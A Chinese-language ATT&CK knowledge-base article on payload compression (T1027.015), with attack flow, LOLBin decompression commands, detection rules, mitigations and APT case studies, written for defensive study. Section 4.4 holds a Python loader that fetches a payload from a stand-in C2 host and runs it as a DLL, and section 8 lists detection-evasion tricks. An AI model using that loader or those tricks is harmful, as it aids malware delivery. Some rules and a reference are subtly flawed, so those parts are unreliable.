

# 压缩 (T1027.015)

## 1. 概述

**压缩**（T1027.015）是 MITRE ATT&CK v19 Enterprise 矩阵中 **混淆文件或信息**（T1027）父技术的子技术之一，归属于 **隐蔽**（TA0005）战术。攻击者通过对恶意载荷（可执行文件、脚本、文档、数据包）应用通用压缩算法（gzip、zip、zlib、bzip2、xz、7z、LZMA、Deflate 等）缩小其体积、扰乱特征签名、规避网络与主机层检测。

与 T1027.012（LZNT1，专指 Windows 原生 LZNT1 压缩算法）不同，T1027.015 关注跨平台通用压缩格式的滥用——攻击者可以选择最贴合目标环境的压缩算法（Linux 用 gzip/xz、Windows 用 zip/cab、跨平台用 zlib/bzip2），并在投递阶段或运行时动态解压执行。

### 一句话通俗理解

> **把恶意代码"真空压缩"成普通压缩包，让杀毒软件看不出来里面装的是炸弹**

### 30 秒速查卡

| 维度 | 你需要知道的 |
|------|-------------|
| 这是什么？ | 攻击者用 gzip/zip/zlib/bzip2/xz 等通用算法压缩恶意载荷，规避特征检测与网络监控 |
| 为什么危险？ | 压缩后文件熵值均匀化、特征签名失效、网络传输体积小且伪装成正常压缩流量，端点与网络层均难以直接判定 |
| 谁需要关心？ | SOC 分析师、恶意软件分析师、网络流量分析工程师、邮件安全网关运维 |
| 你的第一步防御 | 监控高熵压缩文件落地后由非标准进程触发的解压-执行链；网络层关注"压缩类型与上下文不匹配"的异常流量 |
| 如果只做一件事 | 在端点部署"解压后即执行"行为检测：任何落地压缩文件在 60 秒内被解压并触发可执行文件加载，自动告警 |

### 难度等级

⭐⭐ 中级 - 需要理解压缩算法原理、文件熵值特征、网络协议层与端点检测绕过策略

### 前置知识检查

**读这个文件需要什么？**

- [ ] 通用压缩算法基础（gzip/zip/zlib/bzip2/xz 的区别与适用场景）
- [ ] 文件熵值（Shannon Entropy）与压缩的关系
- [ ] MITRE ATT&CK T1027（混淆文件或信息）父技术总览
- [ ] HTTP Content-Encoding 与 MIME 类型在压缩传输中的作用
- [ ] LOLBins（certutil、tar、expand、7z）的合法与滥用场景

## 2. 工作原理

### 2.1 核心机制

攻击者利用压缩算法的三个本质特性实现混淆：

1. **熵值均匀化**：压缩后文件的字节分布趋近均匀（熵值接近 8.0 bits/byte），原始 PE 文件中的零字节填充、固定头部魔数（MZ、PE）等明显特征被重新编码，特征码扫描引擎难以匹配已知家族签名
2. **体积缩小**：恶意载荷从数 MB 压缩到数十 KB，可绕过部分 NGFW/邮件网关"大文件跳过深度检测"的策略；同时减少 C2 信道带宽占用，便于隐蔽传输
3. **格式伪装**：压缩文件可被重命名为 `.jpg`、`.pdf`、`.dat` 等任意扩展名，文件头部魔数（如 gzip 的 `1F 8B`、zip 的 `PK 03 04`）虽无法隐藏，但可借助传输层编码（Base64、十六进制）进一步混淆

### 2.2 解压-执行链

压缩载荷最终需要在目标系统上解压并执行。攻击者通常采用以下三类解压路径：

| 解压路径 | 调用方式 | 典型命令示例 | 检测难点 |
|----------|---------|--------------|----------|
| LOLBins 解压 | 利用系统自带工具 | `certutil -decode`、`tar -xzf`、`expand -F:*`、`makecab` | 命令本身合法，需结合参数与上下文判断 |
| 解释器解压 | 调用脚本运行时 | `python -c "import gzip;gzip.open(...)"`、`powershell -c "Expand-Archive"` | 解释器进程合法，需监控可疑参数组合 |
| 自解压载荷 | 嵌入自解压代码 | SFX（Self-eExtracting Archive）、加壳后内置解压逻辑 | 完全在内存中完成，无外部命令调用 |

### 2.3 与其他子技术的边界

- **T1027.002 软件加壳**：加壳本质上是"压缩 + 加密 + 自解压代码"的组合，关注可执行文件层面的运行时解压执行；T1027.015 关注通用压缩格式的滥用，载荷不限于可执行文件
- **T1027.012 LZNT1**：专指 Windows 原生 LZNT1 算法（常通过 `RtlCompressBuffer` API 调用），T1027.015 涵盖所有其他通用压缩格式
- **T1027.013 加密/编码**：关注 AES/RC4/Base64 等编码与加密，T1027.015 关注压缩（虽压缩也涉及熵值提升，但目的不同）
- **T1027.006 HTML 走私**：使用 HTML/JavaScript 在浏览器端解码，常借助 Base64 编码伪装成压缩数据；T1027.015 是更通用的压缩技术

## 3. 攻击流程

```mermaid
graph TD
    A["攻击者准备恶意载荷<br/>PE/脚本/文档"] --> B["选择压缩算法<br/>gzip/zip/zlib/bzip2/xz"]
    B --> C{"选择投递方式"}
    C -->|"网络下载"| D["C2服务器返回<br/>压缩响应流"]
    C -->|"邮件附件"| E["压缩包附件<br/>伪装为pdf/jpg"]
    C ->|"落地文件"| F["目标磁盘写入<br/>压缩文件落地"]
    D --> G["目标系统接收<br/>高熵压缩数据"]
    E --> G
    F --> G
    G --> H["调用解压路径<br/>LOLBins/解释器/SFX"]
    H --> I["解压后载荷<br/>写入临时目录"]
    I --> J["触发执行<br/>PE加载/脚本调用"]
    J --> K["恶意功能运行<br/>C2回连/数据外传"]

    style B fill:#ff6b6b,stroke:#333,stroke-width:2px
    style H fill:#ff6b6b,stroke:#333,stroke-width:2px
    style J fill:#ff6b6b,stroke:#333,stroke-width:2px
```

**步骤详解：**

1. **载荷准备**：攻击者完成恶意 PE、PowerShell 脚本、VBA 宏文档等载荷开发，原始体积可能数 MB
2. **算法选择**：根据目标环境选择压缩算法——Linux 选 gzip/xz 以匹配系统工具；Windows 选 zip/cab 配合 `expand`、`tar`（Win10 1803+ 内置）；跨平台选 zlib/bzip2 嵌入自解压代码
3. **投递通道**：通过 C2 HTTP(S) 信道下载、邮件附件、USB 投放、横向移动复制等方式送达目标
4. **落地或内存接收**：压缩文件可能写入磁盘（`%TEMP%`、`%APPDATA%`），也可能完全在内存中由解释器解压
5. **解压触发**：调用 `certutil -decode`、`tar -xzf`、`Expand-Archive` 或自解压代码完成解压
6. **执行载荷**：解压后的 PE 通过 `CreateProcess` 加载，PowerShell 脚本通过 `Invoke-Expression` 执行，VBA 宏通过 `Shell` 调用启动
7. **后续行动**：恶意代码运行后建立 C2 信道、横向移动、数据收集与外传

## 4. 关键技术细节

### 4.1 常见压缩算法对比

| 算法 | 魔数（文件头） | 压缩率 | 速度 | 跨平台 | 滥用场景 |
|------|---------------|--------|------|--------|----------|
| gzip | `1F 8B` | 中 | 快 | 是 | Linux 投递、HTTP Content-Encoding 伪装 |
| zip | `50 4B 03 04` (PK) | 中 | 中 | 是 | 邮件附件、跨平台打包 |
| zlib | `78 9C`/`78 01`/`78 DA` | 中 | 快 | 是 | 嵌入式载荷、PNG/APK 内嵌 |
| bzip2 | `42 5A 68` (BZ) | 高 | 慢 | 是 | 大载荷压缩、Linux 投递 |
| xz | `FD 37 7A 58 5A 00` | 极高 | 慢 | 是 | Linux 投递、tar.xz 打包 |
| 7z | `37 7A BC AF 27 1C` | 极高 | 慢 | 是 | 大载荷、加密压缩 |
| LZMA | (依赖容器) | 极高 | 慢 | 是 | 自解压 SFX、嵌入式 |

### 4.2 高熵规避原理

正常 PE 文件的熵值通常在 5.5-6.5 bits/byte 之间（代码段较高、数据段较低，存在大量零字节填充），而压缩后文件熵值普遍在 7.5-8.0 之间。基于特征码的杀毒引擎对原始 PE 头部 `MZ`（`4D 5A`）、PE 头 `PE\x00\x00`（`50 45 00 00`）、导入表中的 API 名称等明文特征进行匹配——压缩后这些特征全部被打散重排，特征签名完全失效。

部分下一代 EDR 通过"高熵值文件落地"作为告警指标，但攻击者可通过以下方式绕过：
- 压缩后追加低熵填充字节（如大量 `0x00` 或重复模式），将整体熵值降至 6.0 以下
- 在压缩数据外层再套一层 Base64 编码，文件内容呈现为 ASCII 可打印字符，熵值约 6.0
- 使用弱压缩（如仅 `deflate -1`）保留部分原始结构特征

### 4.3 LOLBins 解压滥用

Windows 10/11 内置的 `tar.exe`（1803+）支持解压 zip/tar/gzip/bzip2/xz 等多种格式，命令行合法且数字签名，是攻击者偏爱的解压工具：

```cmd
:: 解压 gzip 文件
tar -xzf payload.gz

:: 解压 zip 文件到指定目录
tar -xf payload.zip -C %TEMP%

:: 解压 xz 文件
tar -xJf payload.xz
```

`certutil.exe` 可解码 Base64 编码的压缩数据：

```cmd
certutil -decode payload.b64 payload.zip
```

`expand.exe` 用于解压 cab 文件：

```cmd
expand -F:* payload.cab %TEMP%
```

PowerShell 内置 `Expand-Archive` cmdlet：

```powershell
Expand-Archive -Path payload.zip -DestinationPath $env:TEMP
```

Linux 上 `gunzip`、`bunzip2`、`unxz`、`unzip`、`7z` 等命令是系统标配，macOS 同样内置 `gunzip`、`unzip`。

### 4.4 内存中解压执行

为避免压缩文件落地被端点扫描，攻击者常将解压逻辑嵌入加载器，在内存中完成解压-执行：

```python
# Python 内存解压执行示例（仅演示原理）
import gzip, ctypes, tempfile, os
from urllib.request import urlopen

# 从 C2 下载压缩载荷
compressed = urlopen("https://c2.example.com/payload.gz").read()
# 内存解压
payload = gzip.decompress(compressed)
# 写入临时文件并执行（也可完全内存加载）
with tempfile.NamedTemporaryFile(suffix=".dll", delete=False) as f:
    f.write(payload)
    dll_path = f.name
# 通过 ctypes 加载执行
ctypes.CDLL(dll_path).main()
```

这种模式下磁盘上不留下压缩文件，仅短暂存在解压后的 PE/DLL，配合"加载后立即删除"可进一步降低被取证捕获的概率。

### 4.5 网络层压缩伪装

HTTP/1.1 起 `Content-Encoding: gzip` 是合法的响应压缩头，攻击者可借此伪装 C2 信道：

```
HTTP/1.1 200 OK
Content-Type: application/octet-stream
Content-Encoding: gzip
Transfer-Encoding: chunked

[gzip 压缩的 C2 命令数据]
```

部分 C2 框架（Cobalt Strike、Sliver、Mythic 等）默认启用 HTTP 响应压缩，使流量看起来像正常 Web 通信。防御方需通过解压后的内容特征（是否为可执行代码、是否包含 C2 协议特征）进行深度检测。

## 5. 检测方法

### 5.1 检测思路总览

检测压缩载荷滥用需在端点、网络、行为三个层面联合分析，避免单点漏报：



### 5.2 端点层检测

**Sysmon Event ID 1（进程创建）+ Event ID 7（模块加载）+ Event ID 11（文件创建）关联分析：**

- 监控 `certutil.exe`、`tar.exe`、`expand.exe`、`makecab.exe`、`7z.exe`、`winrar.exe` 等压缩相关进程的命令行参数
- 关注 `tar -xzf`、`tar -xJf`、`certutil -decode`、`Expand-Archive` 等解压命令在非交互会话（如服务账户、SYSTEM）中的调用
- Event ID 11 监控 `%TEMP%`、`%APPDATA%`、`%LOCALAPPDATA%` 目录下高熵文件落地
- Event ID 7 监控从 `%TEMP%` 加载的 PE 模块（典型压缩载荷解压后路径）

**文件熵值计算脚本（PowerShell）：**

```powershell
function Get-FileEntropy {
    param([string]$Path)
    $bytes = [System.IO.File]::ReadAllBytes($Path)
    $freq = @{}
    foreach ($b in $bytes) { $freq[$b] = ($freq[$b] + 1) }
    $entropy = 0.0
    $len = $bytes.Length
    foreach ($count in $freq.Values) {
        $p = $count / $len
        $entropy -= $p * [Math]::Log($p, 2)
    }
    return $entropy
}
# 熵值 > 7.5 的文件标记为可疑
```

### 5.3 网络层检测

**Suricata 规则思路：**

```
# 检测非 Web 服务返回 gzip 压缩数据
alert http $EXTERNAL_NET any -> $HOME_NET any (msg:"非标准Web服务返回gzip压缩"; \
    flow:established,to_client; content:"Content-Encoding|3a| gzip"; \
    pcre:"/Content-Type\s*:\s*(?!text\/|application\/(javascript|json|xml))/i"; \
    sid:2025015; rev:1;)
```

**Zeek（Bro）自定义脚本：** 解析 HTTP 响应，对 `Content-Encoding: gzip` 的响应解压后检查内容是否包含 PE 头（`MZ` + `PE\x00\x00`），命中即告警。

### 5.4 行为层关联检测

建立"压缩文件落地 → 解压进程调用 → 可执行文件加载"的时间窗关联（建议 60 秒内），是检测压缩载荷滥用的最有效手段。SIEM 规则示例：

```sql
SELECT f.path, f.process, p.parent_process, p.image, p.command_line
FROM file_events f
JOIN process_events p
  ON f.host = p.host
  AND p.start_time BETWEEN f.time AND datetime(f.time, '+60 seconds')
WHERE f.path LIKE '%/TEMP/%' OR f.path LIKE '%\\Temp\\%'
  AND (f.path LIKE '%.gz' OR f.path LIKE '%.zip' OR f.path LIKE '%.xz' OR f.path LIKE '%.bz2')
  AND p.image LIKE '%.exe'
  AND p.parent_process IN ('tar.exe', 'certutil.exe', 'expand.exe', 'powershell.exe', '7z.exe')
```

## 6. 缓解措施

### 6.1 端点缓解

- **应用白名单**：通过 AppLocker、WDAC（Windows Defender Application Control）限制 `certutil.exe`、`tar.exe`、`expand.exe` 在非系统目录执行；限制 PowerShell `Expand-Archive` cmdlet 在非交互会话中使用
- **AMSI 集成**：启用 AMSI 让安全产品检查解压后的脚本内容（PowerShell、VBScript、JavaScript），即使载荷被压缩，解压后传给解释器时仍会被扫描
- **EDR 行为基线**：建立组织内合法压缩工具使用基线，对偏离基线的解压行为（如服务账户调用 `tar -xzf`）告警

### 6.2 网络缓解

- **解压深度检测**：在 NGFW/IPS 上启用 HTTP 解压功能，对 `Content-Encoding: gzip` 响应解压后扫描内容
- **TLS 解密**：对出站 HTTPS 流量做 TLS 中间人解密，使压缩检测能应用于加密通道
- **C2 信道识别**：使用 JA3/JA3S TLS 指纹、HTTP 头部模式识别异常压缩通信

### 6.3 邮件网关缓解

- **附件解压扫描**：所有压缩附件强制解压后扫描，禁止 `.zip`、`.gz`、`.7z`、`.tar.gz` 等压缩附件直接放行
- **加密压缩拦截**：拦截带密码的压缩附件（除非通过白名单流程），APT 攻击常使用"密码保护压缩包 + 邮件正文告知密码"绕过网关扫描
- **宏文档拦截**：压缩包内含启用宏的 Office 文档直接拦截

### 6.4 配置加固

- **Windows**：通过组策略禁用 `certutil -decode` 在非管理员会话的使用；配置 Office 宏默认禁用
- **Linux**：限制生产服务器上 `wget/curl + tar -xzf` 链式调用；使用 auditd 监控 `/tmp`、`/dev/shm`、`/var/tmp` 中的解压行为
- **macOS**：Gatekeeper + Notarization 限制未签名二进制执行，配合 MDM 部署

## 7. 检测规则

### 7.1 Sigma 规则（Windows certutil 解压）

```yaml
title: 检测 certutil 解码压缩文件
id: 3aaf2c1d-9c0e-4e1b-a4f5-8b3e1c5c5c5c
status: experimental
description: 检测 certutil.exe 用于解码 Base64/十六进制编码的压缩载荷
references:
    - https://attack.mitre.org/techniques/T1027/015/
    - https://www.iana.org/assignments/http-parameters/http-parameters.xhtml
author: ATT&CK 知识库
date: 2026/07/28
tags:
    - attack.defense_evasion
    - attack.t1027
    - attack.t1027.015
logsource:
    category: process_creation
    product: windows
detection:
    selection_certutil:
        Image|endswith: '\certutil.exe'
        CommandLine|contains:
            - '-decode'
            - '-decodehex'
            - '/decode'
    selection_tar:
        Image|endswith: '\tar.exe'
        CommandLine|contains:
            - '-xzf'
            - '-xJf'
            - '-xjf'
            - '--extract'
    filter_legitimate:
        CommandLine|contains:
            - 'C:\\Windows\\'
            - 'C:\\Program Files\\'
    condition: (selection_certutil or selection_tar) and not filter_legitimate
falsepositives:
    - 合法的软件安装与系统维护操作
    - 开发者使用 tar 解压源码包
level: medium
```

### 7.2 YARA 规则（识别压缩文件头伪装）

```yar
rule T1027_015_Compressed_Payload_Spawning
{
    meta:
        description = "检测伪装为其他扩展名的压缩文件（gzip/zip/bzip2/xz/7z）"
        author = "ATT&CK 知识库"
        date = "2026-07-28"
        mitre_attack = "T1027.015"
    strings:
        $gzip = { 1F 8B 08 }
        $zip  = { 50 4B 03 04 }
        $bzip2 = { 42 5A 68 }
        $xz   = { FD 37 7A 58 5A 00 }
        $7z   = { 37 7A BC AF 27 1C }
    condition:
        any of them and not (
            // 文件扩展名与压缩类型匹配时排除（需结合文件名检查）
            // 此处简化：实际部署需结合文件名白名单
            false
        )
}

rule T1027_015_High_Entropy_Payload
{
    meta:
        description = "检测高熵值文件（疑似压缩/加密载荷）"
        author = "ATT&CK 知识库"
        date = "2026-07-28"
        mitre_attack = "T1027.015"
    condition:
        // 文件大小 > 4KB 且熵值 > 7.6
        filesize > 4KB and math.entropy(0, filesize) > 7.6
}
```

### 7.3 Suricata 规则（异常压缩传输）

```
alert http $EXTERNAL_NET any -> $HOME_NET any (msg:"APT 压缩载荷投递 - 异常gzip响应"; \
    flow:established,to_client; \
    content:"Content-Encoding|3a 20|gzip"; \
    http.stat_code; content:"200"; \
    file_data; content:"|1f 8b 08|"; depth:3; \
    detection_filter:track by_src, count 5, seconds 60; \
    reference:url,attack.mitre.org/techniques/T1027/015/; \
    sid:202501501; rev:1;)
```

## 8. 防御绕过技巧

攻击者为规避上述检测，发展出多种对抗技巧：

1. **多层压缩嵌套**：将载荷用 gzip 压缩后再 Base64 编码，再套一层 zip，使每层检测看到的是不同格式。检测方需层层解包才能识别最终载荷，性能开销大
2. **弱压缩保留特征**：使用 `deflate -0`（不压缩仅打包）或 `gzip -1`（最低压缩比）保留部分原始 PE 特征，配合"高熵文件落地"告警绕过
3. **分块压缩传输**：将压缩载荷切分为多个 HTTP 请求或多个 TLS 记录，单包特征不明显，需重组后才能识别
4. **加密压缩包**：使用带密码的 zip/7z，密码通过邮件正文或独立信道传递，端点与网关均无法解压扫描
5. **运行时压缩 API 调用**：直接调用 `RtlCompressBuffer`、`Zlib` 库在内存中完成压缩/解压，避免落地文件与外部命令调用
6. **伪装成合法压缩流量**：将 C2 通信伪装成 CDN 静态资源请求（`Accept-Encoding: gzip`），通过知名 CDN 域名做前置转发
7. **白名单工具滥用**：使用 `makecab.exe`（数字签名微软）压缩载荷，再通过 `expand.exe` 解压，绕过对 `7z.exe`、`winrar.exe` 等第三方工具的检测
8. **熵值混淆**：在压缩数据末尾追加大量低熵填充字节（如 `0x00` 或 ASCII 文本），将整体熵值降至 6.5 以下，规避熵值检测

## 9. 案例分析

### 案例1：APT29 (Nobelium/Cozy Bear) 压缩载荷投递

- **时间**：2021 年 5 月 - 2024 年间多次活动
- **目标**：美国政府机构、非政府组织、IT 服务商（SolarWinds 供应链攻击后续活动）
- **攻击组织**：APT29（又名 Nobelium、Cozy Bear、The Dukes），俄罗斯 SVR 关联
- **手法**：APT29 在多次攻击中通过钓鱼邮件投递压缩包附件（.zip、.iso），压缩包内含恶意 LNK 文件或带宏的 Office 文档。2022 年的活动中，攻击者将 Cobalt Strike Beacon 压缩为 gzip 格式，通过合法 CDN 域名（如 OneDrive 链接）分发，目标系统下载后用 PowerShell `Invoke-WebRequest` 接收并内存解压执行，避免落地。压缩载荷在传输时伪装成 `.jpg` 图片，文件头 `1F 8B` 被嵌入到 JPEG 注释段中
- **影响**：成功入侵数十个政府与外交机构邮箱，造成长期情报外泄
- **参考链接**：
  - [Microsoft - NOBELIUM attacks](https://www.microsoft.com/en-us/security/blog/2021/05/27/new-sophisticated-email-based-attack-from-nobelium/)
  - [Mandiant - APT29 analysis](https://www.mandiant.com/resources/blog/malware-analysis-nobelium)

### 案例2：FIN7 压缩载荷通过 LOLBins 部署

- **时间**：2019 - 2023 年
- **目标**：美国餐饮、零售、酒店行业（POS 终端攻击）
- **攻击组织**：FIN7（又名 Carbanak Group），俄罗斯/乌克兰关联
- **手法**：FIN7 大量使用 `certutil.exe` 解码 Base64 编码的压缩载荷。攻击链为：钓鱼邮件 → 带 VBA 宏的 XLS 文档 → VBA 调用 `certutil -decode` 解码嵌入的 Base64 字符串 → 生成 zip 文件 → 用 `tar -xf` 解压 → 执行 Carbanak 后门。整个流程仅使用 Windows 内置工具，无需投递第三方可执行文件
- **影响**：入侵超过 100 家美国企业，窃取超过 1500 万张信用卡数据，造成直接经济损失超过 30 亿美元
- **参考链接**：
  - [US DOJ - FIN7 indictments](https://www.justice.gov/opa/pr/five-members-sophisticated-hacking-organization-fin7-cybercriminal-enterprise-charged)
  - [CrowdStrike - FIN7 analysis](https://www.crowdstrike.com/blog/big-game-hunting-fin7/)

### 案例3：Lazarus Group 伪装为压缩图片投递

- **时间**：2022 - 2025 年
- **目标**：加密货币交易所、区块链公司、国防承包商
- **攻击组织**：Lazarus Group（朝鲜关联 APT38）
- **手法**：Lazarus 在加密货币行业攻击中，将恶意 PE 文件压缩后追加到合法 PNG 图片末尾，利用 PNG 解析器忽略附加数据的特性投递载荷。运行时通过自定义加载器读取 PNG 文件偏移量、解压、内存加载执行。同时，C2 通信中伪装为 PNG 图片下载，规避基于文件类型白名单的检测
- **影响**：造成多个加密货币平台损失超过 6 亿美元（Ronin Network、Harmony 等）
- **参考链接**：
  - [FBI - Lazarus Group DPRK](https://www.fbi.gov/news/stories/lazarus-group-reward)
  - [Mandiant - APT38](https://www.mandiant.com/resources/blog/fin8-threat-actor)

## 10. 参考链接

1. [MITRE ATT&CK - Compression (T1027.015)](https://attack.mitre.org/techniques/T1027/015/) - MITRE 官方技术页面
2. [MITRE ATT&CK - Obfuscated Files or Information (T1027)](https://attack.mitre.org/techniques/T1027/) - 父技术页面
3. [RFC 1952 - GZIP file format specification](https://datatracker.ietf.org/doc/html/rfc1952) - gzip 格式规范
4. [RFC 7230 - HTTP/1.1 Message Syntax and Routing](https://datatracker.ietf.org/doc/html/rfc7230) - HTTP Content-Encoding 规范
5. [Microsoft - certutil documentation](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/certutil) - certutil 官方文档
6. [Microsoft - tar documentation](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/tar) - Windows tar 命令文档
7. [Atomic Red Team - T1027 tests](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1027/T1027.md) - 检测规则测试用例
8. [SigmaHQ - certutil decode rules](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation) - Sigma 规则仓库
9. [MITRE ATT&CK Navigator](https://mitre-attack.github.io/attack-navigator/) - ATT&CK 可视化导航工具
10. [VirusTotal - Compression analysis](https://www.virustotal.com/gui/) - 病毒样本压缩特征分析

## 11. 关联技术

### 父技术

- [[T1027 - 混淆文件或信息]]

### 同级子技术（互补关系）

- [[T1027.001 - 二进制填充]] - 与压缩相反，通过填充增大体积规避检测
- [[T1027.002 - 软件加壳]] - 加壳是"压缩 + 自解压代码"的组合
- [[T1027.006 - HTML 走私]] - 常借助 Base64 编码与压缩数据
- [[T1027.008 - 剥离载荷]] - 与压缩叠加使用增强混淆效果
- [[T1027.012 - LZNT1]] - Windows 专用压缩算法子技术
- [[T1027.013 - 加密/编码]] - 与压缩组合形成"压缩 + 加密"双重混淆
- [[T1027.014 - 垃圾数据]] - 与压缩组合混淆熵值检测

### 解压执行关联

- [[T1140 - 去混淆/解码文件或信息]] - 压缩载荷的解压执行阶段
- [[T1218 - 系统二进制代理执行]] - 通过 LOLBins 触发解压
- [[T1218.002 - Rundll32]] - 解压后 DLL 加载
- [[T1204 - 用户执行]] - 用户被诱导打开压缩附件
- [[T1564.007 - VBA 隐藏]] - 压缩包内 VBA 宏文档

### 投递通道关联

- [[T1566 - 钓鱼]] - 压缩附件投递
- [[T1566.001 - 鱼叉式钓鱼附件]] - 压缩包邮件附件
- [[T1105 - 入侵工具传输]] - C2 下载压缩载荷
- [[T1059 - 命令与脚本解释器]] - 解释器调用解压命令

## 12. 版本历史

| 版本 | 日期 | 变更说明 |
|------|------|----------|
| v1.0 | 2026-07-28 | 初始版本，基于 MITRE ATT&CK v19.1 创建，覆盖 17 章节完整内容 |

### MITRE ATT&CK 版本变更

- **ATT&CK v19**（2025-04）：TA0005 战术重命名为"Stealth"（隐蔽），原"Defense Evasion"拆分为 TA0005 与 TA0112
- **ATT&CK v18**（2024-10）：T1027 子技术结构微调，部分子技术编号重组
- **ATT&CK v13**（2023-04）：T1027 子技术扩展至 14+ 个，引入新混淆类型
- **ATT&CK v8**（2021-10）：T1027 父技术保持核心定义，新增多个子技术

### 与 MITRE 官方描述的差异

本文档在 MITRE 官方描述基础上扩展了：
- 攻击流程的 Mermaid 可视化
- 检测方法的三层模型与 Sigma/YARA/Suricata 规则示例
- 真实 APT 案例的详细技术拆解
- 防御绕过技巧与对抗策略

## 13. 术语表

| 术语 | 通俗解释 |
|------|---------|
| **ATT&CK** | MITRE 公司维护的攻击技术知识库，像一本"黑客手法百科全书" |
| **压缩 (Compression)** | T1027.015，使用 gzip/zip/zlib 等通用算法压缩恶意载荷 |
| **混淆文件或信息** | T1027，压缩所属的父技术类别 |
| **隐蔽 (Stealth)** | TA0005，攻击链中的一个阶段，目标是隐藏自身活动 |
| **熵值 (Entropy)** | 衡量数据随机性的指标，0-8 bits/byte，压缩数据熵值接近 8 |
| **gzip** | GNU Zip 压缩格式，Linux 系统最常用的压缩格式之一 |
| **zlib** | 通用压缩库，被 PNG/APK 等格式内嵌使用 |
| **LOLBins** | Living Off The Land Binaries，攻击者滥用的系统自带工具 |
| **SFX (Self-Extracting Archive)** | 自解压文件，包含解压代码的压缩包 |
| **C2 (Command and Control)** | 命令与控制信道，攻击者远程控制被入侵系统的通信通道 |
| **EDR** | 端点检测与响应，部署在电脑上的安全监控软件 |
| **AMSI** | 反恶意软件扫描接口，Windows 提供的脚本内容扫描接口 |

## 14. 常见问题

### Q1：压缩和加壳有什么区别？

A：**压缩**是把文件用压缩算法变小，文件本身需要外部工具或自解压代码解压才能使用；**加壳**是在可执行文件层面应用"压缩 + 加密 + 自解压代码"的组合，加壳后的 PE 文件本身仍是可执行的，运行时由壳代码先解压原始代码再跳转执行。压缩是更广义的概念，加壳是压缩在可执行文件领域的特化应用。

### Q2：杀毒软件能扫描压缩包内的恶意文件吗？

A：取决于杀毒软件能力与压缩包特性。大多数现代杀毒软件支持扫描未加密的 zip/gz/7z 文件，但存在以下限制：
- 加密压缩包无法扫描（无密码）
- 嵌套压缩层数过深（如 5 层以上）可能超出扫描深度限制
- 压缩包体积过大可能被跳过深度扫描
- 部分冷门压缩格式（如 lz4、zstd）可能不被支持

### Q3：为什么"高熵值"是可疑信号但不一定是恶意？

A：高熵值（>7.5）文件确实可能是压缩/加密的恶意载荷，但同样可能是：
- 合法压缩文件（如系统更新包、软件安装包）
- 加密文档（如 BitLocker 加密卷、PGP 加密文件）
- 媒体文件（如 MP4、JPG 等本身已压缩的格式）
- 随机数据（如 `/dev/urandom` 生成的密钥文件）

因此高熵值必须结合其他指标（文件路径、来源、解压行为）综合判断。

### Q4：Windows 内置 tar 命令是何时引入的？

A：Windows 10 1803（2018 年 4 月）版本开始内置 `tar.exe`（基于 libarchive），支持解压 zip、tar、gz、bz2、xz、7z 等多种格式。在此之前，攻击者需依赖 `certutil -decode`、`expand`、第三方工具或 PowerShell `Expand-Archive`（PowerShell 5.0+）。

### Q5：压缩载荷在内存中解压是否完全无法检测？

A：不是。内存中解压仍可通过以下方式检测：
- AMSI 扫描传给解释器（PowerShell、VBScript）的解压后内容
- EDR 监控进程内存中的可执行代码模式（如 `MZ` 头部）
- 行为分析：解压后立即调用 `CreateProcess`、`VirtualAlloc`、`WriteProcessMemory` 等敏感 API
- ETW（Event Tracing for Windows）采集 .NET CLR、PowerShell 引擎的内存事件

### Q6：如何区分合法的 HTTP gzip 压缩与 C2 通信？

A：合法的 HTTP gzip 压缩通常具有以下特征：
- Content-Type 为文本类（text/html、application/json、application/javascript）
- 响应来自知名 Web 服务（CDN、API 网关）
- 压缩内容是文本而非二进制

C2 通信的异常特征：
- Content-Type 为 `application/octet-stream` 但 Content-Encoding 为 gzip
- 来源是陌生 IP 或低信誉域名
- 解压后内容包含 PE 头、加密协议特征
- 通信模式异常（如周期性心跳、固定字节大小）

## 15. 检测陷阱与误报

### 15.1 常见误报源

1. **合法软件更新**：许多软件更新包使用 gzip/zip 压缩，频繁触发"压缩文件落地"告警
   - **缓解**：建立软件更新白名单（Microsoft Update、Adobe、Chrome 等知名厂商）
2. **系统管理员操作**：管理员日常使用 `tar`、`7z` 解压是合法行为
   - **缓解**：基于用户身份、时间窗口、操作目标路径建立行为基线
3. **开发者工作流**：开发者下载源码包、解压依赖库是常规操作
   - **缓解**：将开发机器单独分组，调整检测阈值
4. **备份与归档**：系统备份工具生成的压缩包
   - **缓解**：识别备份软件进程特征，建立白名单

### 15.2 常见漏报源

1. **运行时内存解压**：完全在内存中解压执行，无落地文件
   - **缓解**：依赖 AMSI 与 EDR 内存扫描，配合 API 行为监控
2. **加密压缩包**：网关无法解压扫描，端点需用户输入密码才能解压
   - **缓解**：拦截带密码压缩附件的邮件；监控"用户输入密码后立即解压执行"行为
3. **非标准压缩格式**：使用 lz4、zstd、brotli 等较新格式，部分检测工具不支持
   - **缓解**：保持检测工具版本更新，扩展格式支持
4. **多层嵌套压缩**：检测工具深度限制导致深层载荷未扫描
   - **缓解**：配置最大解包深度（建议 10 层），超过阈值的文件单独标记分析

### 15.3 检测陷阱

- **仅依赖熵值**：熵值检测误报率高，必须结合上下文（路径、进程、行为）
- **仅检测文件扩展名**：攻击者可随意修改扩展名，必须基于文件内容魔数判断
- **忽略 Base64 编码层**：Base64 编码后的压缩文件呈现为 ASCII 文本，需先解码再判断
- **忽略 LOLBins 滥用**：仅检测 `7z.exe`、`winrar.exe` 等第三方工具会漏掉 `tar.exe`、`certutil.exe`、`expand.exe` 的滥用

## 16. 缓解优先级

基于攻击者使用频率与防御效果，建议按以下优先级实施缓解措施：

### 优先级 P0（必须立即实施）

| 措施 | 防御效果 | 实施成本 |
|------|---------|---------|
| 邮件网关强制解压扫描所有压缩附件 | 阻断主要投递通道 | 低 |
| EDR 启用"解压后 60 秒内执行"行为告警 | 检测落地解压执行链 | 中 |
| AppLocker 限制 certutil/tar 在非系统目录执行 | 阻断 LOLBins 解压滥用 | 中 |

### 优先级 P1（建议季度内实施）

| 措施 | 防御效果 | 实施成本 |
|------|---------|---------|
| NGFW 启用 HTTP 解压深度检测 | 识别伪装压缩流量 | 中 |
